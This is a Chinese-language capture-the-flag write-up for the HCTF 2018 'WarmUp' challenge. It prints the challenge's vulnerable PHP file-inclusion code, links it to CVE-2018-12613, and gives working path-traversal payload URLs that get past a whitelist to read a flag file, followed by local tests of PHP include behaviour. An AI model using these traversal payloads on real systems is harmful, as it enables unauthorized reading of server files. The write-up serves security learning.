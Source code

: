 # [HCTF 2018]WarmUp

查看源码，发现注释 `<!--source.php-->`，访问/source.php。  

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

看到可以传一个 `file` 参数，先判断  

```php
if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
)
```

需要 `file` 变量不为空，是一个字符串，并且要 `checkFile()` 返回 `true`，再看 `checkFile()` 函数，第一个 if 要求变量被声明且值不为 `null`，容易满足，第二个 if 看变量是否在白名单内，第三个 if 将 file 内容截取开头到第一个 "?" 出现的位置，再查看截取内容是否满足白名单，第四个 if 先将 file 内容执行 `urldecode()`，再截取开头至 "?"，查看是否满足白名单。  
一开始的想法是利用 `checkFile()` 的第三个 if，即 使得 payload 内容中的问号前内容满足白名单，后面跟路径（后面跟路径能被包含的原因后面解释），得到了最初的可能 payload:

```url
1. http://0b72ae59-34b2-43e2-8ece-acf9b5788b9f.node4.buuoj.cn:81/source.php?file=source.php?/../../../../ffffllllaaaagggg
```

经过查阅，漏洞基于 CVE-2018-12613，可以参考 <https://blog.csdn.net/m0_46898243/article/details/106244110>，原因是 include 一个路径时，是因为第一个斜杠前的内容被视作当前路径下的子目录，而后面再跟 `/../` 表示返回上一级的目录，因此，如 `xxx/../` 便被视作当前路径，尽管当前路径下并不存在 `xxx` 目录，所以执行 `include source.php?/../../../../ffffllllaaaagggg` 就等价于 `include /../../../ffffllllaaaagggg`。  
后来看文章的时候发现说 include 里的地址不能有特殊符号，比如这里的问号，但是我上面的 payload 确实是可以执行的，可能是 php 版本的原因(?)。  
我又尝试了其他的 payload:

```url
1. http://0b72ae59-34b2-43e2-8ece-acf9b5788b9f.node4.buuoj.cn:81/source.php?file=source.php%3f/../../../../ffffllllaaaagggg
2. http://0b72ae59-34b2-43e2-8ece-acf9b5788b9f.node4.buuoj.cn:81/source.php?file=source.php%253f/../../../../ffffllllaaaagggg

```

发现都是可以运行得到 flag 的，稍微有点迷惑，能通过 if 校验应该是没问题，第一个实际等价于第二个 payload，浏览器在传输 "?" 时，会自动进行 URL 编码，所以第一第二个 payload 都是满足第三个 if 判断，第三个 payload 在传输到服务器进行一次 URL 解码，在第四个 if 前进行一次 URL 解码，所以还是可以得到 "?"，满足第四个 if，if 都是能过的，剩下问题就是为什么 `include source.php(?/%3f/%253f)/../../../../ffffllllaaaagggg` 都能够顺利执行，然后我开始了测试。  

## 测试

phpstudy: Apache2.4.39, MySQL5.7.26, php5.3.29  

test.php

```php
<?php
include "xxx%253/../hi.php";
echo "xxx%253/../hi.php<br/>";
echo "hello!<br/>";
?>
```

hi.php

```php
<?php
echo "hi<br/>";
?>
```

注意在测试目录中并没有 xxx%253 这个文件夹  
访问 <http://localhost/test.php>  
可以正常输出，说明上面所说 "`include source.php?/../../../../ffffllllaaaagggg` 就等价于 `include /../../../ffffllllaaaagggg`" 是正确的。  

```txt
hi
xxx%253/../hi.php
hello!
```

修改 test.php 为  

```php
<?php
include "xxx?/../hi.php";
echo "xxx%253/../hi.php<br/>";
echo "hello!<br/>";
?>
```

即在路径中加入问号。  
访问出现  

```txt
Warning: include(xxx?/../hi.php) [function.include]: failed to open stream: No such file or directory in D:\Operator\phpstudy\phpstudy_pro\WWW\127.0.0.1\test.php on line 2

Warning: include() [function.include]: Failed opening 'xxx?/../hi.php' for inclusion (include_path='.;C:\php\pear') in D:\Operator\phpstudy\phpstudy_pro\WWW\127.0.0.1\test.php on line 2
xxx%?/../hi.php
hello!
```

说明 include 路径中确实不能出现如 "?" 的特殊符号，至于写的题中的第一个 payload 能够执行，我暂时无从得知，但规范的 payload 的应该是第三个。
